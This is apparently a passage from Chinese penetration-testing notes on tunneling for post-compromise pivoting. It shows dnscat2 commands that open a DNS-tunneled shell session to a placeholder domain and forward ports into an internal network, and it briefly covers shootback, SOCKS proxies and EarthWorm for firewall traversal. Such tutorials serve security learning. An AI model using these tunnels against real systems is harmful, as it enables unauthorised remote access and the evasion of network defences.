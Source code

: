 `ruby ./dnscat2.rb tunneldomain.com`  
Client端：  

`./dnscat2 tunneldomain.com`  
收到Server端的连接后，可以使用windows命令查看活动会话：  

```
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```
要启动端口转发，请选择一个命令会话session -i ：  

```
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!
That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.
command session (debian) 1>
```
使用listen [lhost:]lport rhost:rport命令转发端口：  

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`  
这将绑定靶机上的端口8080，并将所有连接转发到10.0.0.20:80。  

## TCP隧道
### shootback
[shootback](https://github.com/aploium/shootback)，是由python开发的反向TCP隧道，使得NAT或防火墙后的内网机器可以被外网访问。在800并发下消耗小于1％的CPU和8MB内存。  
….

## SOCKS  
在实际渗透测试过程中，当我们成功的拿下第一台靶机后，此时我们又想对目标内网进一步渗透测试时，socks能够帮助我们更加快速的，方便的访问目标内网的各种资源，比传统的端口转发更加实用。  

### socks代理工具
socks代理其实也可理解为一个增强版的 lcx，它在服务端监听一个服务端口，当有新的连接请求时会从socks协议中解析出访问目标的URL的目标端口，再开始执行lcx的具体功能。  

网络上Socks代理工具有很多，选用的时候尽可能使用无GUI界面的工具，还有尽可能不需要安装其他依赖软件，能够支持多平台操作系统的更佳。  

### Earthworm

工具网址：http://rootkiter.com/EarthWorm  
EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以正向、反向、多级级联等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。  
工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内,强烈推荐使用。  

目前已经有了最新版Termite，工具网址：http://rootkiter.com/Termite/  
